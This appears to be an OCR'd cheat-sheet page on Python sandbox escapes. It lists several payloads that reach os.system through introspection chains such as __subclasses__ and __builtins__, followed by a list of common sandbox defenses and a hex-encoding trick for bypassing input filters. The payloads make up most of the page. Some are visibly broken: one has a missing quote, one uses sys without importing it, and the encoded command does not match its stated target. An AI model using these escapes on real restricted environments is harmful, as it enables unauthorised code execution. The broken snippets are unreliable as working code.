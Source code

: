 ```python
from os import *
__import__('os').system("ls")

# 2
sys.modules["os"].system("ls")

#3 - python2
execfile('/usr/lib/python2.7/os.py')
system('ls')

# 4
cmd = '''i=().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os')\ni.system('sleep 20')'''

# 5
cmd = '''{}.__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('sleep 20')'''

#6
cmd = '''''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.get('linecache').os.popen('sleep 20').read()'''

#7
##### Steps : First restore "builtins", then import "builtin" and them use builtin to import "os"
cmd = '''
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtin__=__builtins__["__import__"]('__builtin__')
__builtin__.__dict__['__import__']('os').system(ls')
'''
```

## Defenses in a python sandbox

1. Forbidden characters or input validation
2. No builtin present
   * `exec('cmd', {'__builtins__': None})`
3. Restriction on importing libraries 
   * `sys.modules['os'] = 'not allowed'`
   * Skip execution if os shell modules are executed.

## 1. Bypass - Forbidden characters or input validation

### Encoding to byte code

* We can encode forbidden characters in their encoded form. Here we used hex encoded as it works smoothly as compared to octal encoding.
* Target command
  * `exec("print('RCE'); __import__('os').system('ls')")`
* Updated command, after converting payload to hex bypte code
  * `exec("\x5bi for i in \x28)\x2e\x5f\x5fclass\x5f\x5f\x2e\x5f\x5fbases\x5f\x5f\x5b0]\x2e\x5f\x5fsubclasses\x5f\x5f\x28) if i\x2e\x5f\x5fname\x5f\x5f=='catch\x5fwarnings']\x5b0]\x28)\x2e\x5fmodule\x2e\x5f\x5fbuiltins\x5f\x5f")`

